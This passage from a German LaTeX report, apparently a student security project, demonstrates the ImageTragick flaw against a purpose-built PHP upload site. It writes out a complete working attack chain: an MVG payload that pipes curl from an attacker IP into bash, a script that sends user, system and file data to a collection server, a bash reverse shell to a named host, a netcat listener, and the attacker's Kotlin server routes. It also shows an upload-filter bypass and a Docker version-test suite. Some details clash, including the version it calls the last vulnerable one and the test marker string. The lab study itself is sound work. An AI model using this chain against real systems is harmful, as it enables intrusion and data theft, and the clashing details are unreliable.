> apt-get install php7.0 php7.0-fpm
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Installation von php-imagick über Paketquellen}

Zunächst wird versucht die PHP-Erweiterung für Imagemagick genauso über die Paketquellen zu installieren

\begin{lstlisting}[language=Bash, caption=Install PHP-Imagick Modul,label={lst:installphpmagick}]
> apt-get install php-imagick
\end{lstlisting}
\vspace{5mm}

Listet man sich nun alle installierten php module auf, wird ersichtlich, dass die Version die in den Paketquellen für Ubuntu 16.04 liegt nicht mit der installieten Version von Imagemagick kompatibel ist.
Dies lässt sich als positiv herausheben, da es zeigt, dass bei einer Neuinstallation von php7 und Imagemagick die Sicherheitslücke nicht mehr über php ausgenutzt werden kann.

\begin{lstlisting}[language=Bash, caption=PHP Module überprüfen,label={lst:checkmodule}]
> php -m | grep image
PHP Warning: Version warning: Imagick was compiled against Image Magick version 1673 but version 1682 is loaded. Imagick will run but may behave surprisingly in Unknown on line 0
\end{lstlisting}
\vspace{5mm}

Also muss das Package wieder deinstalliert werden und eine alte Version installiert werden.

\begin{lstlisting}[language=Bash, caption=Uninstall PHP-Imagick Modul,label={lst:uninstallimagick}]
> apt-get purge php-imagick
\end{lstlisting}
\vspace{5mm}

\newpage
\subsubsubsection{Installation von php-imagick from source}

Ältere Versionen von php-imagick können über PECL installiert werden.
PECL ist ein Package Repository für PHP Erweiterungen~\cite{PHPPecl}.

Bevor PECL genutzt werden kann, müssen noch einige Abhängigkeiten installiert werden~\cite{InstallPECLExtensions}.
\begin{lstlisting}[language=Bash, caption=Installiere PECL Abhängigkeiten,label={lst:installpecldeps}]
> apt-get install php-pear
> apt-get install php7.0-dev
> apt-get install pkg-config
\end{lstlisting}
\vspace{5mm}

Nun wird die Version 3.4.0 installiert:
\begin{lstlisting}[language=Bash, caption=PECL Install Imagick Modul,label={lst:peclinstallimagick}]
> pecl install imagick-3.4.0
\end{lstlisting}
\vspace{5mm}

Damit das imagick php modul in der CLI gefunden werden kann, muss es zunächst in der php.ini aktiviert werden.
Dafür wird ein neuer extension-Eintrag erstellt.

\begin{lstlisting}[language=Bash, caption=PHP Imagick aktivieren,label={lst:phpactivateimagick}]
> vim /etc/php/7.0/cli/php.ini
extension=imagick.so
\end{lstlisting}
\vspace{5mm}

> vim /etc/php/7.0/cli/php.ini
extension=imagick.so

\begin{lstlisting}[language=Bash, caption=PHP Überprüfe Imagick Modul,label={lst:phpcheckimagicksuccess}]
> php -m | grep imagick
imagick
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Konfiguration von NGINX}

Als erstes muss php in der site-config von nginx aktiviert werden. 
Die sock-Datei unter fastcgi\_pass muss existieren. 
Der Pfad ist bei anderen PHP Versionen unter Umstäden unterschiedlich. 
Um die Änderungen anzuwenden, muss nginx neu gestartet werden~\cite{InstallNginxPHP}.

\begin{lstlisting}[language=Bash, caption=NGINX Default-Config,label={lst:nginxdefaultconf}]
> vim /etc/nginx/sites-available/default
location ~ \.php$ {
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/run/php/php7.0-fpm.sock;
}

> systemctl restart nginx
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Aktivierung der des imagick Moduls für fpm}

Damit für nginx das imagick php modul ebenfalls aktiviert ist, muss die Erweiterung auch in der php.ini von fpm deklariert werden.

\begin{lstlisting}[language=Bash, caption=PHP-FPM Imagick Modul aktivieren,label={lst:phpfpmaddimagick}]
> vim /etc/php/7.0/fpm/php.ini
extension=imagick.so
\end{lstlisting}
\vspace{5mm}

Änderungen werden über ein Restart von fpm übernommen:
\begin{lstlisting}[language=Bash, caption=PHP-FPM Neustarten,label={lst:phpfpmrestart}]
service php7.0-fpm restart
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Überprüfen der Installation durch phpinfo()}

Um zu überprüfen, ob nun auf PHP Ebene Imagemagick gearbeitet werden kann, wird eine PHP Datei erstellt, in der die PHP Methode phpinfo() aufgerufen wird, welche zahlreiche Informationen zur Installierten PHP Umgebung anzeigt~\cite{PHPPhpinfoManual}.

\begin{lstlisting}[language=Bash, caption=info.php mit phpinfo(),label={lst:phpinfo}]
> vim /var/www/html/info.php

<?php
phpinfo();
?>
\end{lstlisting}
\vspace{5mm}

Ruft man nun die Seite über den Browser auf, sieht man auch das installierte imagick-Modul, sowie alle supporteten Datei-Formate.
Darunter auch einige Bild-Formate wie PNG, JPEG und MVG, welche für die Forum-Profil Seite benötigt werden.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/phpinfo.png}
    \caption{imagick-Abschnitt aus phpinfo()}\label{fig:phpinfo}
\end{figure}

\subsubsubsection{Aufbau der PHP Website}

Als nächsten Schritt wird über HTML und CSS eine Profil-Seite aufgebaut, welche Links das Profilbild und einen Upload-Button zeigt.
Rechts sind noch einige weitere Informationen zu dem User zu finden.

\begin{figure}[H]
    
\includegraphics[width=1\textwidth]{img/ForumAufbau.png}
    \caption{Screenshot der Forum Profil-Seite}\label{fig:forumprofil}
\end{figure}
Für das Design wurde ein bestehendes Bootstrap Snippet genutzt, angepasst und um die Upload Funktionalität erweitert~\cite{BootSnapTemplate}.

Der relevante Imagemagick-Teil wird ausgeführt, sobald ein Bild in dem Filepicker ausgewählt und der Submit-Button betätigt wird.

\begin{lstlisting}[language=PHP, caption=Imagick skalieren und speichern,label={lst:imagickscalesave}]

<?php

if (isset($_POST['submit'])) {
  $dir = "uploads/";
  $file = $dir . basename($_FILES['file']['name']);
  echo move_uploaded_file($_FILES['file']['tmp_name'], $file);

  try {
	  $im = new Imagick($file);
	  $im->scaleImage(420, 240, true);
    $im->writeImage('profile.png');
  } catch (Exception $e) {
    echo $e->getMessage();
  }
}

?>
\end{lstlisting}
\vspace{5mm}

In diesem Fall wird das Bild in uploads/ abgelegt, per Imagemagick auf eine feste Größe skaliert~\cite{PHPImagickScaleImage} und anschließend nochmal in profile.png geschrieben.
Dei Datei unter dem Pfad profile.png wird in das Bild geladen.

\begin{lstlisting}[language=HTML, caption=Profile Image,label={lst:htmlimg}]
<div class="profile-img">
	<img src="profile.png" alt=""/>
</div>
\end{lstlisting}
\vspace{5mm}


\subsubsection{Generische angreifende MVG-Datei}

Der Angriffspunkt auf die Website besteht darin eine infizierte MVG-Datei analog zu den einfachen Beispielen oben hochzuladen und somit an Informationen über die Webserver zu kommen.\\

Da, in der MVG nur eine Zeile Platz ist den schädlichen Code zu platzieren, haben wir uns für einen generischen Code entschieden. Hier wird eine .sh-Datei von dem Server des Angreifers heruntergeladen und per Bash ausgeführt.

\begin{lstlisting}[language=MVG, caption=Aufbau generische angreifende MVG-Datei,label={lst:genericmvg}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|curl "http://192.168.16.125:8080/attack"| bash")'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Der Angreifer kann also auf seinem Server entscheiden, welcher Code ausgeführt wird und die Implementierung jederzeit erweitern.\\

Der Aufbau des Webservers des Angreifers wird im kommenden Absatz beschrieben.

\subsubsection{Der Angreifer-Webserver}

\subsubsubsection{Allgemein}

Wir haben uns bei der Implementierung des Angreifer-Webservers für das Framework Ktor~\cite{KtorWebsite} in der Programmiersprache Kotlin~\cite{KotlinProgrammingLanguage} entschieden.

Der Webserver besteht aus folgenden Bestandteilen:
\begin{itemize}[\itemsep=1em]
    \item Die attack.sh Script-Datei, welche definiert, welche Aktionen auf dem Opfer-Server ausgeführt werden und die abgefangene Daten zurück an den Angreifer-Server sendet
    \item Einer GET Route /attack, die den Inhalt einer .sh Datei zurückgibt, welcher auf dem Server des Opfers ausgeführt wird
    \item Einer POST Route /report, an die abgefangene Daten gesendet werden können
\end{itemize}

\subsubsubsection{Attack.sh Script}

\begin{lstlisting}[language=Bash, caption=attach.sh Script,label={lst:attacksh}]
#!/bin/bash

REST_URL="http://192.168.16.125:8080"

function report() {
  curl -X POST -F "key=$1" -F "value=$2" -v "$REST_URL/report"
}

report "user" "$(whoami)"
report "ram" "$(free -m)"
report "cpu" "$(lscpu)"
report "ls" "$(ls -la)"
report "test" "$(tail -n 20 test.php)"

/bin/bash -i >& /dev/tcp/vh05.maax.gr/1111 0>&1
\end{lstlisting}

\begin{itemize}[\itemsep=1em]
    \item Es wird eine Adresse/Domain definiert, unter der der Restserver erreichbar ist
    \item Es wird eine report() Funktion definiert, welche per CURL einen POST Request an den /report Endpunkt sendet.
    Der erste Parameter der Funktion ist eine Beschreibung, welche Information abgegriffen wird (Key), der zweite Parameter der Value, also die Daten, die für diesen Key abgegriffen wurden.
    \item Für jede information, die abgegriffen werden soll, wird die report Funktion aufgerufen.
    Per \$(command) wird die Ausgabe des Commands zurückgeben und hier als Parameter an die report()-Funktion übergeben
    \item Weitere, auch schreibende oder zerstörende Aktionen, können in der Datei definiert werden
\end{itemize}


An dieser Stelle kann auch eine Verbindung zu einer Reverse Shell aufgebaut werden.
Dafür kann sogar direkt der Bash-Befehl verwendet werden, welcher immer vorinstalliert ist~\cite{NetcatHacking}. \\

Damit dies funktioniert, muss vorher ein Netcat-Listener auf dem angegebenen Host und Port erstellt werden,
was über folgenden Befehl möglich ist:

\begin{lstlisting}[language=Bash, caption=Netcat Listener erstellen, label={lst:setupnetcatlistener}]
nc -lvp 1111
\end{lstlisting}
\vspace{5mm}

Nach dem Upload der generischen MVG-Datei können
vom vh05.maax.gr-Host aus interaktiv Befehle auf dem Opfer-Server im Namen des www-data-Users abgesetzt werden.

\clearpage

\subsubsubsection{GET /attack Route}

\begin{lstlisting}[language=Kotlin, caption=GET /attack Route,label={lst:attackroute}]
get("/attack") {
    var attackSH = getResourceContent("static/attack.sh")
    attackSH = attackSH.replace("\r\n", "\n")
            .replace("\r", "\n")
    call.respondText(attackSH)
}
\end{lstlisting}
\vspace{5mm}

Die GET-Route holt sich den Inhalt der attack.sh Datei und gibt diesen an den Aufrufer als Response zurück.
Wir gehen in unserem Beispiel davon aus, dass das Opfer die Website auf einem Linux Server betreibt.
Linux nutzt das Line-Ending "`\textbackslash n"'.
Wird der Angreifer-Server auf einem Windows-PC ausgeführt, müssen die Windows-Zeilenumbrüche noch ersetzt werden, damit der Inhalt vom Linux-Server interpretiert werden kann.

\subsubsubsection{POST /report Route}

\begin{lstlisting}[language=Kotlin, caption=POST /report Route,label={lst:portreport}]
post("/report") {
    val parameters = call.receiveParameters()
    println("${parameters["key"]} => ${parameters["value"]}")

    call.respondText("OK")
}
\end{lstlisting}
\vspace{5mm}

In diesem Beispiel, werden die Parameter, also Informationen,
die vom attack.sh Script gesammelt und zum Server gesendet werden, auf der Console des Servers ausgegeben.
Weiter könnte man sich ein Loggen in einer Datenbank,
beziehungsweise eine Liveansicht über Websockets in einem Attacker-Dashboard vorstellen.

\subsubsection{Umgehen von Uploadbeschränkungen}

Eine erste Idee der Verteidigung wäre, den Upload auf Dateien mit einer gewissen Datei-Endung zu beschränken.
(z.B. Nur PNG-Dateien)
Dieser Fix kann aber einfach umgangen werden, indem man die mvg-Datei zu einer png-Datei umbenennt.
Da ImageMagick den Dateitypen anhand des Inhalts errät, ist es egal, wie die Datei selbst heißt.
Sie Schwachstelle kann somit trotzdem noch ausgenutzt werden.
\newpage
\subsection{Tests der Imagemagick Versionen via Docker Container}\label{subsec:tests-der-imagemagick-versionen-via-docker-container}

\subsubsection{Einleitung}

Um zu validieren, welche Versionen gegen die Sicherheitslücke angreifbar sind, wird eine Test-Suite aufgebaut,
die in dem folgenden Kapitel beschrieben ist.
In dieser Testsuite können verschiedene Imagemagick-Versionen gegen verschiedene Betriebssysteme getestet werden.

\subsubsection{Dateiaufbau}

\begin{lstlisting}[language=Text, caption=Übersicht über alle Dateien in der Testsuite,label={lst:testsuiteoverview}]
test-suite/
    debug.sh
    global
        entryPoint.sh
        exploit.mvg
        PRIVATE_FILE
        working.jpeg
    test.sh
    ubuntu-12.04-6.9.3-9_src_official
    ubuntu-14.04-6.9.3-9_src_official
    ubuntu-14.04-6.9.3-9_src_official
    ubuntu-18.04-6.9.3-10_src_official
    ubuntu-18.04-6.9.3-9_src_fork
    ubuntu-18.04-6.9.3-9_src_official
    ...
\end{lstlisting}
\vspace{5mm}

\subsubsection{Test-Image Beschreibungen}

Alle ubuntu-* Dateien, sind Dockerfiles, die ein Ubuntu-Image beschreiben,
welches Imagemagick in einer bestimmten Version installiert.\\

Jedes Docker-Image hat in der Test-Suite folgenden Aufbau:\\

\begin{itemize}
    \item Als Basis-Image wird ubuntu gewählt.
    Die Version unterscheidet sich, je nach Datei
    \item Es werden Dependencies zum bauen der C-Dateien zu binaries installiert.
    Beispielsweise make und gcc
    \item Es wird Imagemagick in einer bestimmten Version installiert
    \item Am Schluss jedes Image werden die Dateien aus dem global/ Ordner zu dem Image hinzugefügt und die entryPoint.sh Datei als Standard-Einsprungs-Script ausgewählt
\end{itemize}

\newpage

Beispiel: ubuntu-18.04-6.9.3-9\_src\_official

\begin{itemize}
    \item Als Basis-Image wird ubuntu in der Version 18.04 benutzt
    \item Es wird Imagemagick Version 6.9.3-9 direkt aus dem offiziellen GitHub Reposirory installert.
    Da diese Version nicht mit einem Git-Tag markiert wurde,
    muss direkt der letzte Release-Commit~\cite{ReleaseImageMagick393-9} ausgecheckt werden.
\end{itemize}

\begin{lstlisting}[language=Docker, caption=Beispiel Dockerfile aus der Testsuite,label={lst:testsuiteexample}]
# Base Image
FROM ubuntu:18.04

# Prepare
WORKDIR /run
RUN cd /run

# Packet packages sources
RUN apt-get update

# Dependencies
RUN apt-get update
RUN apt-get install -y make gcc wget xz-utils git

# Get sources
RUN mkdir code
WORKDIR code
RUN git clone https://github.com/ImageMagick/ImageMagick6.git .
RUN git checkout 2458872ae906063029ed413f77946791cc20b64e

RUN ls -la

# Unpack and install
RUN ./configure
RUN make
RUN make install

# Workdir
WORKDIR /run
RUN cd /run

# Set Env
ENV LD_LIBRARY_PATH=/usr/local/lib

# Util dependencies
RUN apt-get install -y vim
RUN apt-get install -y curl

# add global files
ADD ./global .

# run entrypoint
CMD ["bash", "entryPoint.sh"]
\end{lstlisting}
\vspace{5mm}

\newpage

\subsubsection{Der global/ Ordner}

Der global/ Ordner enthält Dateien, die für alle Tests in benötigt werden.

\subsubsubsection{PRIVATE\_FILE}

Es wird eine Datei erstellt, die per Exploit ausgelesen werden soll.

\begin{lstlisting}[language=Text, caption=Geheime Datei in Testsuite,label={lst:testsuiteprivatefile}]
> cat PRIVATE_FILE
PRIVATE-CONTENT
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{exploit.mvg}

Diese Datei wird im nachfolgend von ImageMagick aufgerufen und enthält den Code,
welcher den Inhalt der PRIVATE\_FILE ausgibt.

\begin{lstlisting}[language=Text, caption=exploit.mvg in Testsuite,label={lst:testsuiteexploit}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://testimage.png"|cat "PRIVATE_FILE)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Eine Beschreibung, warum der hinterlegte Code ausgeführt wird, ist im Kapitel 'Details der Schwachstelle' zu finden .


\subsubsubsection{entryPoint.sh}

\begin{lstlisting}[language=Text, caption=entryPoint.sh in Testsute,label={lst:testsuiteentry}]
#!/bin/bash

identify exploit.mvg
echo 'AFTER_IDENTIFY'
\end{lstlisting}
\vspace{5mm}

Dieses Shell-Script wird von jedem Dockerfile aufgerufen, um den Exploit auszunutzen.
Dabei wird die identify-Funktion von Imagemagick angesprochen.\\

Das nachfolgende echo wird als Flag benutzt, um sicherzustellen, dass entryPoint.sh auch wirklich aufgerufen wird.
Dies wird später in test.sh etwas genauer erläutert.


\subsubsubsection{working.jpeg}

Hier handelt es sich um ein valides JPEG-Bild File,
welches bei dem eigentlichen Test nicht direkt benötigt,
jedoch zu debug zwecken nützlich ist,
um die generelle Funktionsfähigkeit von Imagemagick und dem Identify Befehl zu testen.


\subsubsubsection{test.sh}

Mit diesem Script wird der Test einer speziellen Umgebung angestoßen.
Hierbei wird der Name des Dockerfiles als ersten Parameter übergeben.

\begin{lstlisting}[language=Text, caption=Beispielaufruf test.sh,label={lst:testsuitecall}]
./test.sh ubuntu-18.04-6.9.3-9_official
\end{lstlisting}
\vspace{5mm}

Das Script baut das Docker-Image der übergebenen Dockerfile und führt dieses aus.
Anschließend wird der Inhalt ausgewertet.
Enthält die Ausgabe nicht den Text 'AFTER\_IDENTIFY'
(wird von entryPoint.sh ausgeführt), kann davon ausgegangen werden,
dass die Dockerfile fehlerhaft aufgebaut ist und das entryPoint.sh script nicht von Docker ausgeführt wurde.\\

Als zweites wird überprüft, ob die Ausgabe den String "PRIVATE\_CONTENT" enthält,
welches der Inhalt der PRIVATE\_FILE ist,
welche per Exploit - siehe exploit.mvg ausgelesen wird.
Wenn dies der Fall ist, kann man darauf schließen, dass die installierte Imagemagick Version
auf dem ausgewählten Betriebssystem angreifbar gegenüber der hier gezeigten Sicherheitslücke ist.

\begin{lstlisting}[language=Text, caption=test.sh Script in Testsuite,label={lst:testsuitetestscript}]
#!/bin/bash

DOCKERFILE_NAME="$1"

GREEN="\e[32m"; RED="\e[31m"; RESET="\e[0m"

IDENTIFY=$(
  docker build -t "imagemagick_test_$1" -f $1 . | tee /dev/tty &&
  docker run "imagemagick_test_$1"  | tee /dev/tty
)

echo '-----------------------------------------------------------'

if [[ "$IDENTIFY" != *"AFTER_IDENTIFY"* ]];
then
  echo -e "$RED Error bei der Ausführung! $RESET"
fi

if [[ "$IDENTIFY" == *"PRIVATE-CONTENT"* ]];
then
  echo -e "$GREEN Sicherheitslücke ausgenutzt! $RESET"
else
  echo -e "$RED Sicherheitslücke nicht ausgenutzt! $RESET"
fi

echo '-----------------------------------------------------------'

if [[ "$IDENTIFY" == *"PRIVATE-CONTENT"* ]];
then
  exit 0
else
  exit 1
fi
\end{lstlisting}
\vspace{5mm}


\subsubsubsection{debug.sh}

Auch dieses Script bekommt den Namen einer Dockerfile übergeben.
Es baut einen Docker-Container und öffnet eine Interaktive Bash-Shell auf dem Container.
So können in dem Container beliebige Imagemagick Befehle ausgeführt werden.
Außerdem können Config-Dateien, wie delegate.xml oder properties.xml beliebig bearbeitet werden.

\begin{lstlisting}[language=Text, caption=Script debug.sh in Testsuite,label={lst:testsuitedebugcall}]
#!/bin/bash

DOCKERFILE_NAME="$1"

docker build -t "imagemagick_test_$1" -f $1 .
docker run -it "imagemagick_test_$1" /bin/bash
\end{lstlisting}
\vspace{5mm}

\subsubsubsection{Erkenntnisse}

Die letzte angreifbare Version ist 6.9.3-9.
In Version 6.9.3-9 ist der exploit in der Standard-Konfiguration nicht mehr reproduzierbar.\\

Bei den Tests mit den verschiedenen Versionen wird deutlich, dass einzig die ImageMagick Version ausschlaggebend ist,
ob der Exploit ausnutzbar ist.
Auch ein neues Ubuntu 18.04 ist angreifbar, sofern eine alte ImageMagick Version installiert ist.
Die Angaben der Betriebssysteme beziehen sich also nur darauf,
dass auf diesem Betriebssystem per Paketverwaltung eine angreifbare imagemagick Version ausgeliefert wurde.
In den neusten Security-Patches wurde die Sicherheitslücke allerdings auch für alte Betriebsysteme, wie Ubuntu 12.04 gefixt.
Es ist folglich nur möglich die alten Versionen über die Imagemagick-Sourcen selbst bauen.

%



